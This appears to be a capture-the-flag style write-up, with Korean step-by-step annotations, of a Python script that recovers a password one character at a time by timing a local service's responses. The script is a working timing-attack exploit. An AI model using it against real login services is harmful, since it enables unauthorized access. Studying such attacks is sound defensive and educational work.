 ``` py
import time
from socket import *


IP = "localhost"
PORT = 9090

FoundedPasswd = ''
mytime = 0
imreal = 0

s = socket()
s.connect((IP, PORT))   # ⓐ

s.send("1\n")
s.recv(100)
s.close()

for y in range(20):
    for x in range(0x20, 0x80):
        s = socket()
        s.connect((IP,PORT))
        testStr = FoundedPasswd + chr(x)    # ⓑ
        stime = time.time()                 # ⓒ
        s.send(testStr+"\n")                # ⓓ
        data = s.recv(100)                  # ⓔ
        taketime = time.time() - stime      # ⓕ

        if data.find("ok") >= 0:            # ⓖ
            print FoundedPasswd
            exit()

        print chr(x), taketime

        if taketime >= mytime:              # ⓗ
            mytime = taketime
            imreal = x
        s.close()

    FoundedPasswd += chr(imreal)            # ⓘ
    print FoundedPasswd
```



> ⓐ 테스트 결과, 첫 번째 소켓 연결에서 유난히 시간이 많이 걸리길래, 본격 패스워드 전송 이전에 임의로 소켓을 한 번 연결시켜준다.
> ⓑ 이 때까지 찾은 패스워드에 x(0x20~0x80)를 하나씩 붙여 보내본다.
> ⓒ 문자열 전송 전 시간을 기록한다.
> ⓓ 문자열 전송!
> ⓔ 결과 받아보기(예를 들면 password invalid 같은 메시지)
> ⓕ 결과를 받는 데(패스워드 비교 구문을 실행하는 데) 걸린 시간을 측정한다.
> ⓖ password ok 메시지가 오면, 이 때까지 찾은 패스워드를 출력하고 프로그램을 종료한다.
> ⓗ 결과를 받는 데 가장 많은 시간이 걸린 문자 x를 imreal에 기록한다.
> ⓘ 0x20부터 0x80까지 모두 테스트한 뒤 가장 많은 시간이 걸린 문자(imreal)를 올바른 패스워드에 하나씩 추가해간다.
